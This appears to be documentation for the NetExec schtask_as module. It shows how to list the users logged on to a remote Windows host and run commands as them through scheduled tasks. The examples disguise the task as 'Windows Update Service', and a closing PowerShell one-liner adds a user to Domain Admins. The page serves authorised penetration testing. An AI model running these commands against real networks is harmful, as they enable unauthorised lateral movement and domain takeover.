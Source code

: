 ```yaml
---
description: >-
  Use Sessions from logged-on Users to execute arbitrary commands using
  schtask_as
---
```


# 🆕 Impersonate logged-on Users

{% hint style="warning" %}
You need at least local admin privilege on the remote target
{% endhint %}

The Module `schtask_as` can execute commands on behalf of other users which have sessions on the target, thanks to the contribution from [@Defte\_](https://twitter.com/Defte\_).

### 1. Enumerate logged-on users on your Target

```bash
nxc smb <ip> -u <localAdmin> -p <password> --loggedon-users
```

### 2. Execute commands on behalf of other users

```bash
nxc smb <ip> -u <localAdmin> -p <password> -M schtask_as -o USER=<logged-on-user> CMD=<cmd-command>
```

<figure><img src="../.gitbook/assets/schtask_as.png" alt=""><figcaption></figcaption></figure>

### Module options:

```bash
CMD            Command to execute
USER           User to execute command as
TASK           OPTIONAL: Set a name for the scheduled task name
FILE           OPTIONAL: Set a name for the command output file
LOCATION       OPTIONAL: Set a location for the command output file (e.g. '\tmp\')
```

Example:

```bash
nxc smb [] -u [] -p [] --local-auth -M schtask_as -o USER=[target] CMD="whoami" TASK="Windows Update Service" FILE="update.log" LOCATION="\\Windows\\Tasks\\"
```

Custom command to add a user to the domain admin group for easy copy\&pasting:

```powershell
powershell.exe \"Invoke-Command -ComputerName DC01 -ScriptBlock {Add-ADGroupMember -Identity 'Domain Admins' -Members USER.NAME}\"
```
